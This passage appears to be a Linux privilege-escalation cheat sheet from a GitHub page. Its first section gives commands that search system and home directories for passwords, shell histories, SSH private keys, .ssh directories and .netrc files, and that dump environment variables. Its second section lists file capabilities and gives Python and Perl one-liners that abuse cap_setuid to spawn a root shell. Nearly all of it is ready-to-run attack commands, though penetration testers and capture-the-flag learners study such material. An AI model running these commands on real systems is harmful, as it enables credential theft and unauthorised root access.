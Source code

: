 ## Credentials Hunting

### Search for Credentials in Files
```bash
# Common locations
grep -r "password" /var/www/ 2>/dev/null
grep -r "password" /opt/ 2>/dev/null
grep -r "password" /etc/ 2>/dev/null
grep -r "password" /home/ 2>/dev/null

# History files
find / -name "*_history" -type f 2>/dev/null
find / -name ".bash_history" -type f 2>/dev/null

# SSH private keys
find / -name "id_rsa" 2>/dev/null
```

### Check for Hardcoded Credentials
```bash
# User configuration files
grep -r "PASSWORD" /home/ 2>/dev/null
grep -r "PASS" /home/ 2>/dev/null

# Search for environment variables
env | grep -i pass
```

### Check for Remembered Authentication
```bash
# .ssh directories
find / -name ".ssh" -type d 2>/dev/null

# Check for .netrc files
find / -name ".netrc" -type f 2>/dev/null
```

## Capabilities

### List Capabilities
```bash
# List all capabilities on the system
getcap -r / 2>/dev/null
```

### Exploiting Capabilities
```bash
# Example: Python with cap_setuid capability
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Example: Perl with cap_setuid capability
perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/sh";'
```
